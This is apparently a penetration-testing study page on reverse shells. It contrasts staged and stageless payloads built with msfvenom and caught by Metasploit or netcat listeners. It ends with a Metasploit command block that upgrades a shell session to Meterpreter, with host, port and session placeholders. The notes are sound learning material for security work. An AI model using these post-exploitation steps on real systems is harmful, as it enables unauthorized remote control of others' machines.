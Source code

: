 # Shells

![](<../../../../.gitbook/assets/image (25) (1) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader  part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```

